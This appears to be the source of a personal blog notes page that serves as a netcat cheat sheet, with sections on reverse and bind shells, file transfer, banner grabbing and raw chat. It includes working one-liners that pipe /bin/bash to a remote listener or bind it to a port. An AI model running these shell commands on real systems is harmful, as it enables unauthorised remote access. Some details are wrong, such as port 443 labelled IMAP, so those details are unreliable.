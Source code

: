 ```yaml
---
layout: post
title: 'Hacks for Netcat'
permalink: 'hacks-for-netcat'
category: notes
---
```


## Table of Contents
* [Reverse shell](#reverse-shell)
* [Bind shell](#bind-shell)
* [File transfer](#file-transfer)
* [Banner grabbing](#banner-grabbing)
* [Raw chat](#raw-chat)

Netcat can read & write TCP/UDP ports. Here are a few different use-cases for it.

## Reverse Shell

A Reverse Shell involves opening a port locally and then, getting a remote node to send you a shell. As a metaphor, imagine Bob has a mailbox (the port). Since he is interested in what is going on elsewhere, he gets Alice to give him a subscription to the city newspaper (a shell) where she lives. Instead of driving downtown and directly probing for information, Bob simply waits for the newspaper to show up.

By the way, for those who have not caught on yet (took me a while) the character of Alice is used to denote “point A” while Bob is used as “point B.” Therefore, one can infer a direction by following the normal convention of “point A to point B.”

In the following example, Bob has the IP address of `192.168.5.2`.
```bash
nc -lnvp 8888			# Bob; the mailbox
```
```bash
nc -nv -e /bin/bash 192.168.5.2 # Alice; the newspaper
```
```bash
[ Intranet | Extranet ]
        Firewall
	   |
	   |
     {     |x----}	# Bob can't get a Bind Shell (inbound rules)
Alice{	   | 	 }Bob
     {~~~~~|~~~~>}	# So he uses a Reverse Shell (no proxy/outbound rules)  
     	   |     
	   |	  
```

## Bind Shell
```bash
nc -lnvp 8888 -e /bin/bash # binds a shell to port 8888
```
```bash
nc -nv 192.168.5.1 8888	   # accesses port/shell on the remote node
```

## File Transfer
Open a port, direct everything a file. Redirect file to recently opened port.
```bash
nc -lnvp 8888 > incoming.exe 	       		# do on system needing file
```
```bash
nc -nv 192.168.5.1 8888 < /path/to/file.exe 	# do on system with file
```

## Banner Grabbing
Banner grabbing is a technique used to collect service version information from a remote node. For example, each command sentence below provokes verbose output from a target.
```bash
nc -nv 192.168.5.2 25  # SMTP
nc -nv 192.168.5.2 110 # POP3
nc -nv 192.168.5.2 443 # IMAP
```

## Raw Chat
Output will be the same on both ends of the socket.
```bash
nc -lnvp 8888	   # server; his IP address = 192.168.5.1
nc -nv 192.168.5.1 # client; connects to server
```
